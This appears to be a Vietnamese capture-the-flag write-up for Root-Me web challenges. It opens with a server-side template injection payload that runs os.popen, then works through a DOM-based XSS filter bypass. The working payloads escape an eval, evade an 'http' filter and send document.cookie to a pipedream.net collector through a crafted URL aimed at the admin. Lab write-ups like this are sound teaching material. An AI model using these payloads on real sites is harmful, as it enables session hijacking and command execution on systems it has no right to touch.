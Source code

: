 ```
{{ self.__TemplateReferecne__context.namespace.__init__.gloabls__os.popen('cmd').read() }}
```

## 2. XSS DOM Based - Filters Bypass
Mở đầu vào ta có giao diện như sau, có thể nhập 1 số hay chữ bất kì vào, check source:

```
       <script>
        var random = Math.random() * (99);
        var number = '1';
        if(random == number) {
            document.getElementById('state').style.color = 'green';
            document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
        }
        else{
            document.getElementById('state').style.color = 'red';
            document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
        }
        </script>
        
 ```
 
 Vậy ta cần phải bypass qua hàm eval để thực hiện alert trước đã, trang web filter vài cái là <>, +, ; , nhưng kh quan trọng lm vì ta đang ở trong script, chỉ cần thóat ra khỏi hàm eval là được,
  ta có thể dùng %0A để xuống dòng hoặc**&&** để nó thực hiện cái sau mình muốn là alert luôn:
 
 > Payload: 1' && alert(1)// | 1'%0Aalert(1)//

![image](https://user-images.githubusercontent.com/104350480/218234081-059d00f4-65ec-4058-a028-3b7de13f0491.png)

Vậy là đã alert thành công, tấn công tiếp thôi.
Nhưng khi thử tiếp các request như các chall khác thì vấn đề nữa xảy ra là sau khi fuzz 1 hồi thì biết nó đang filter từ http

![image](https://user-images.githubusercontent.com/104350480/218234822-0802dee3-5ab7-4d69-8ecf-5f47d409362b.png)

Lúc này mình có ý tưởng là dùng document.URL để cắt http ra rồi nối chuỗi bằng concat để thực hiện tấn công, chú ý nữa là bài có filter cả dấu **"** , khi gửi đọc source code ta thấy bị filter đi mất, vì vậy có thể thay bằng dấu **'**

```
Payload: 1'%0Adocument.location=document.URL.slice(0,7).concat('eo7xxasp6lhfvaj.m.pipedream.net?c=').concat(document.cookie)//

Hoặc dùng hàm eval: 1' && eval(document.location=document.URL.slice(0,7).concat('eo7xxasp6lhfvaj.m.pipedream.net/?c=').concat(document.cookie))//

```

Chuyển trang thành công rồi thì ta gửi cho server ở phần contact rồi đợi admin nhấn thôi:

> http://challenge01.root-me.org/web-client/ch33/?number=1%27+%26%26+eval%28document.location%3Ddocument.URL.slice%280%2C7%29.concat%28%27eo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%27%29.concat%28document.cookie%29%29%2F%2F
